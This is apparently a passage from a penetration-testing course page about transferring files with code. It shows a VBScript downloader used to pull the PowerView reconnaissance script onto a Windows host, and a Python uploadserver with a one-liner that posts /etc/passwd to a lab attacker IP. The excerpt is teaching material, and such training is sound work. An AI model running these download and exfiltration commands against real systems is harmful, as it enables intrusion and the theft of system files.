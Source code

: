 Code: vbscript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

#### Download a File Using VBScript and cscript.exe

  Transferring Files with Code

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

---

## Upload Operations using Python3

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

#### Starting the Python uploadserver Module

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Uploading a File Using a Python One-liner

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
